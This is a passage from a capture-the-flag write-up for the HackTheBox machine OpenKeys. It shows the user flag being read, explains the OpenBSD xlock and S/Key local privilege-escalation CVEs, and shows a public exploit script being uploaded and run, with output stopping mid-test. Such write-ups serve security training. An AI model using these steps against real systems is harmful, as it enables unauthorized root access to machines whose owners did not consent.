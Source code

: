 ```shell
openkeys$ whoami
jennifer
openkeys$ id
uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
openkeys$ uname -a
OpenBSD openkeys.htb 6.6 GENERIC#353 amd64
```

#### Grabbing user.txt

```shell
openkeys$ cat user.txt
36ab21239a15c53*****************

```

## Elevating Priv: jennifer -> root

Going back to [**secpod article**](https://www.secpod.com/blog/openbsd-authentication-bypass-and-local-privilege-escalation-vulnerabilities/), apart from authentication bypass there were three more CVE's for local privilege escalation.

- CVE-2019-19519 : Local privilege escalation via su
- CVE-2019-19520 : Local privilege escalation via xlock
- CVE-2019-19522 : Local privilege escalation via S/Key and YubiKey

While first one doesn't seem to apply here, the second and third are worth looking at.

In CVE-2019-19520, xlock in OpenBSD 6.6 allows local users to gain the privileges of the auth group.

Gaining privileges of auth group using CVE-2019-19520 we can leverage CVE-2019-19522 where any local user with ‘auth’ group permission can gain full privileges of the root user due to incorrect operation of authorization mechanisms via ‘S/Key‘ and ‘YubiKey‘.

### AutoExploit

There is a [**script on Github**](https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot) which automates both the CVE's to give us root.

We'll download it and transfer it to the box using scp since we've SSH access:

```shell
cfx:  ~/Documents/htb/openkeys
→ scp -i jennifer.key openbsd-authroot jennifer@10.10.10.199:/tmp
openbsd-authroot                                                                                                                                            100% 4087    11.3KB/s   00:00
```

#### Root Shell

```shell
openkeys$ cd /tmp/
openkeys$ ls -la
total 16
drwxrwxrwt   2 root      wheel   512 Nov 28 13:55 .
drwxr-xr-x  13 root      wheel   512 Nov 28 13:45 ..
-rw-r--r--   1 jennifer  wheel  4087 Nov 28 13:55 openbsd-authroot
openkeys$ chmod +x openbsd-authroot

openkeys$ ./openbsd-authroot
openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
[*] checking system ...
[*] system supports S/Key authentication
[*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
[*] compiling ...
[*] running Xvfb ...
[*] testing for CVE-2019-19520 ...
```